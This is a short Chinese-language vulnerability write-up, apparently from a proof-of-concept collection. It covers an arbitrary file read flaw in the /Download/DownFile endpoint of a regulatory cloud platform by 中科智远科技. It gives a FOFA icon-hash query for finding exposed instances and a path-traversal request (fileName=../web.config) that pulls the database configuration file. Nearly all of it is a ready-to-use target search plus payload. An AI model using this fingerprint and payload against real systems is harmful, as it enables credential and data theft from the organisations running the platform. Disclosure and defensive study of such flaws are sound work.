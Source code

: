 ## 中科智远科技-综合监管云平台DownFile存在任意文件读取漏洞

中科智远科技-综合监管云平台 /Download/DownFile 存在任意文件读取漏洞，读取数据库配置文件导致数据泄露。


## fofa

```
icon_hash="-227059202"
```

## poc

```
/Download/DownFile?fileName=../web.config
```

![image-20240707202558023](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072025096.png)